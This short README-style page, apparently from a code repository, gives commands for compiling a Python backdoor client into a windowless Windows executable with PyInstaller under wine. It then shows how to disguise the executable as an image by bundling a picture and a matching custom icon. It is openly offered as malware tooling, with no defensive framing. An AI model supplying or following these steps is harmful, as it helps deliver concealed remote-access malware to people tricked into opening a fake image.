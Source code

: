 # Backdoor on windows 
	
	wine /root/.wine/drive_c/Python27/Scripts/pyinstaller.exe client_backdoor.py --onefile --noconsole

The *.exe file is in dist/

# Embedding backdoor in a image 
		
		"wine /root/.wine/drive_c/Python27/Scripts/pyinstaller.exe --add-data "<path_to_your_image>;." --onefile --noconsole --icon <path_to_your_.ico> client_backdoor.py"

In order to make a .ico go to --> `https://convertico.com/jpg-to-ico/` --> create the .ico
		

